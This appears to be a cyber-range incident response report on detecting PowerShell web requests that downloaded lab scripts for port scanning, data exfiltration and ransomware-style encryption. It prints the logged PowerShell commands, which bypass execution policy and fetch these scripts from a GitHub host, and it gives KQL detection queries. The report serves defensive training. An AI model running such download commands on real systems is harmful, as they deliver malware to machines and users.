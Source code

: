 # 🔍 Incident Response Analysis: Identifying Suspicious PowerShell Web Requests

![image](https://github.com/user-attachments/assets/2edf7e2d-294f-4ea4-a8a8-11fefded19ad)

## 🕒 Timeline and Findings

### 📌 Alert Rule Creation
An alert rule was created using the following query to detect suspicious PowerShell activity on **windows-target-1**:

```kusto
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe" and InitiatingProcessCommandLine contains "Invoke-WebRequest"
```

---

## 🔍 Detection and Analysis

### 📢 Incident Overview
During the investigation of the **ARJ - PowerShell Suspicious Web Request** incident, it was discovered that PowerShell commands were executed on **windows-target-1**, leading to the download of multiple scripts.

**Incident Breakdown:**
- **Affected Device:** 1 (`windows-target-1`)
- **Affected User:** 1
- **Downloaded Scripts:** 4
- **Execution Method:** PowerShell commands

### 🖥️ Powershell Commands Observed
The following PowerShell commands were executed on the affected machine:

```powershell
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

### 🗣️ User Interaction
The affected user was contacted regarding their activity around the time of the suspicious logs.  
They stated that they attempted to install a **free** piece of software, saw a **black screen** for a few seconds, and then "nothing happened."

---

## 📊 Execution Confirmation

Using **Microsoft Defender for Endpoint (MDE)** and **Sentinel**, it was confirmed that the downloaded scripts were actually executed. The following query was used:

```kusto
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it appears in logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add script names
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize TimeRan = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

---

## 🛠️ Reverse Engineering Analysis

The scripts were forwarded to the **malware reverse engineering team** for analysis. Findings:

| Script Name          | Functionality |
|----------------------|--------------|
| `portscan.ps1`      | Scans an IP range for open ports and logs results. |
| `exfiltratedata.ps1`| Generates fake employee data, compresses it, and uploads it to Azure Blob Storage. |
| `eicar.ps1`         | Creates an **EICAR** test file to trigger antivirus detection. |
| `pwncrypt.ps1`      | Encrypts fake company data and drops a ransom note with decryption instructions. |

---

## 🚑 Containment, Eradication, and Recovery

### 🛡️ Immediate Actions Taken
1. **Isolated the affected machine** in **Microsoft Defender for Endpoint (MDE)**.
2. **Ran a full anti-malware scan** on the system.
3. **Verified system integrity** after cleaning and removed isolation.

---

## 📈 Post-Incident Activities

### 📌 Security Enhancements Implemented:
✅ **User Awareness Training**
   - Affected user was enrolled in an **advanced cybersecurity training program**.
   - Upgraded the organization's security awareness training package via **KnowBe4**.
   - Increased training frequency.

✅ **PowerShell Restriction Policy**
   - Implemented a policy restricting **PowerShell execution** for non-essential users.

✅ **Monitoring Improvements**
   - Enhanced monitoring rules to **detect and alert** on PowerShell execution with `Invoke-WebRequest`.

---

## 🎯 Conclusion
The incident was successfully mitigated, and no sensitive company data was compromised.  
However, it highlighted gaps in **user awareness and PowerShell execution policies**, which have now been addressed.

---

📌 **Next Steps**
- Conduct a **red team simulation** to assess the effectiveness of new security controls.
- Continue monitoring for any similar PowerShell-based threats.
- Reinforce **endpoint protection policies** to prevent unauthorized script execution.

---

🔒 **Cybersecurity Team Response Log**  
*Prepared by: Rasheed Jimoh*  
*Date: 25 February 2025*  
*Organization: RJInnovateHub*  
